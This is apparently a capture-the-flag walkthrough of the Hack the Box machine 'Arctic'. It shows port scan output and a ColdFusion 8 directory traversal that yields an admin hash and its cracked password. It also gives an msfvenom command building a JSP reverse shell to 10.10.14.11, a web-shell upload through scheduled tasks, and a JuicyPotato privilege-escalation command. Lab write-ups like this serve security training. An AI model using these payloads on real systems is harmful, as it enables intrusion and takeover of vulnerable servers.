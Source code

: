 ```yaml
---
title: Arctic - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Arctic.png
---
```

### Scan
```
--------------------Starting Vulns Scan-----------------------

Running CVE scan on all ports



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



Running Vuln scan on all ports
This may take a while, depending on the number of detected services..



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
### Enum
8500
Directory Listing via http
research on cold. Fusion 8 admin portal, directory traversal for passwd hash
https://nets.ec/Coldfusion_hacking read up on it here. 
pwd hash `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` - `happyday`
When logged in, we can look at mappings to see where to potentially place files. ` C:\ColdFusion8\wwwroot\CFIDE`
Once found, go to scheduled tasks, and use python link to serve jsp web executable shell from msfvenom.

`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=4321 -f raw -o pwn.jsp`

![Image](/assets/Screenshot 2024-10-05 at 8.57.19 AM.png)

Go back to initial directory, and nagivate to the web shell

![Image](/assets/Screenshot 2024-10-05 at 8.57.02 AM.png)

Shell ![Image](/assets/Screenshot 2024-10-05 at 8.57.38 AM.png)

SEImpersonate! Juicy pot! Rev shell!

make and go to temp dir. Move files over with certutil. then start listener for higher priv shell

`jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`

higher priv!![Image](/assets/Screenshot 2024-10-05 at 9.06.10 AM.png)

ROOT:47526c0fca39f552b54dc6b755bc82cb

### Init
### Priv Esc
